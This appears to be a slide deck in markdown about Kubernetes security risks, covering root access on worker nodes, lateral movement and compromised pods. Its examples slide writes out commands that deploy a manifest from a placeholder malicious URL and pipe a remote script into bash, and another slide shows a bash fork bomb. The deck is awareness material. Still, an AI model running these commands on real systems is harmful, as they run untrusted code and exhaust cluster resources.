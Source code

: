 
# [fit] Potentially *Gain root access*
# [fit] to the Kubernetes worker nodes

---

# [fit] Perform *lateral* 
# [fit] *network movement* 
# [fit] outside the cluster

---

# [fit] Run a *compromised* Pod

---

# Examples

```bash
$ kubectl create -f http://Insert_Malicious_URL_here/FakeApp.yaml
$ curl SRI-Tools.com/fakeapp.sh | bash
$ Kubectl create –f http://SRI-Tools.com/k8s/FakeApp.yaml
```

---

# [fit] :(){ :|:& };:

^
13 characters, 1 fork bomb.
Spins up threads.
Unmanaged can take a load of resoruce.
Resource that can be used elsewhere.

---

# [fit] *Secure* by default yeah?

---

![autoplay](assets/k8-english.mp4)

---